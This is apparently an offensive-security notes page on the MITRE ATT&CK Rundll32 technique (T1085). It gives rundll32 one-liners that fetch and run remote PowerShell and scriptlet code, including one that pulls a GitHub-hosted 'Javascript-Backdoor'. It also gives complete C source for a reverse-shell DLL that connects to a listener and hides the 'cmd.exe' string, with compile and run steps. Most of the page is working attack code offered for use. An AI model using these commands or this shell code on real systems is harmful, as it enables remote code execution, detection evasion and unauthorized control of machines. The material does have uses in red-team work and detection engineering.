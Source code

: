 # Rundll32

---
* **ID**: T1085
* **Source**: <https://attack.mitre.org/techniques/T1085/>
---

# Details

## Execute
### AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.
```
rundll32.exe AllTheThingsx64,EntryPoint, e.g. rundll32 example.dll,DllMain
```
* Usecase: Execute dll file
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
```
* Usecase: Execute code from Internet
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to execute a JavaScript script that runs calc.exe.
```
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```
* Usecase: Proxy execution
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```
* Usecase: Proxy execution
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```
* Usecase: Execute code from Internet
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to load a registered or hijacked COM Server payload. Also works with ProgID.
```
rundll32.exe -sta {CLSID}
```
* Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
* Privileges required: User
* OS: Windows 10 (and likely previous versions)

## Create a DLL file for Rundll32
* Download and Install `MinGW`:
  * Ubuntu:
  ```
  apt-get install mingw-w64
  ```
  * Windows:
    * <https://sourceforge.net/projects/mingw-w64/>
    * <https://www.rose-hulman.edu/class/csse/resources/MinGW/installation.htm>
* Create a .c file with the following codes (simple reverse shell in C):

```
/* Windows Reverse Shell*/

#define REVERSEIP "<ip_of_C2>" // change to your listener IP
#define REVERSEPORT <port_of_C2>  // change to your listener Port

#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>

#pragma comment(lib, "w2_32")

WSADATA wsaData;
SOCKET Winsock;
SOCKET Sock;
struct sockaddr_in hax;
char aip_addr[16];
STARTUPINFO ini_processo;
PROCESS_INFORMATION processo_info;


BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    WSAStartup(MAKEWORD(2,2), &wsaData);
    Winsock=WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned int)NULL,(unsigned int)NULL);

    hax.sin_family = AF_INET;
    hax.sin_port =  htons(REVERSEPORT);
    hax.sin_addr.s_addr = inet_addr(REVERSEIP);      

    WSAConnect(Winsock,(SOCKADDR*)&hax, sizeof(hax),NULL,NULL,NULL,NULL);
    if (WSAGetLastError() == 0) {

        memset(&ini_processo, 0, sizeof(ini_processo));

        ini_processo.cb=sizeof(ini_processo);
        ini_processo.dwFlags=STARTF_USESTDHANDLES;
        ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

        char *myArray[6] = { "cm", "trump", "putin", "d.e", "x", "e" };
        char command[8] = "";
        snprintf( command, sizeof(command), "%s%s%s%s", myArray[0], myArray[3], myArray[4], myArray[5]);

        CreateProcess(NULL, command, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &ini_processo, &processo_info);
        exit(0);
    } else {
        exit(0);
    }    
}
```

* Compile the .c file to .dll file:
  * Ubuntu:
  ```
  i686-w64-mingw32-gcc -c shell.c
  i686-w64-mingw32-gcc -shared -o shell.dll shell.o -lws2_32
  ```
  * Windows:
  ```
  gcc -c shell.c
  gcc -shared -o shell.dll shell.o -lws2_32
  ```
- Run it through `rundll32.exe`:
```
rundll32.exe shell.dll,DllMain
```

# References

* <https://lolbas-project.github.io/lolbas/Binaries/Rundll32/>
* <https://www.puckiestyle.nl/c-simple-reverse-shell/>
